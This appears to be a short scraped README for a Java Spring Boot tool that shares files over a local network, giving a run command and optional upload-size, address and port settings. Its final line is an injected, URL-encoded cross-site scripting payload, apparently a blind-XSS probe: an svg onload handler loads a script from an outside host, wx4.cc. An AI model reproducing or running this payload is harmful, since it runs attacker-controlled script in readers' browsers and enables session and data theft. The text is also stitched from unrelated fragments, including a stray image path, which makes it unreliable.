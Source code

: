 ## mou gong si zhi neng yong nei wang chuan ge wen jian zhen nm fei jin 

application.properties 
### How to run

`java -jar Sharing_LAN-1.0.jar `

Optional Parameters 

- --file.uploadFile.dir=/local/file/path/ # absolute path 
- --spring.servlet.multipart.max-file-size=1024MB # max upload size 
- --spring.servlet.multipart.max-request-size=1024MB # max download size
- --server.address=0.0.0.0 # listening ip
- --server.port=8123 # listening port


013hhpzdc89hmbpj6mdrt1wrza6yh1ra"><svg%20onload=setTimeout%28function%28%29%7Bwith%28document%29body.appendChild%28createElement%28%60script%60%29%29.src%3D%60%2F%2Fwx4.cc%2Fwuxi%3Ft%3D1715845509698%60%7D%2C0%29>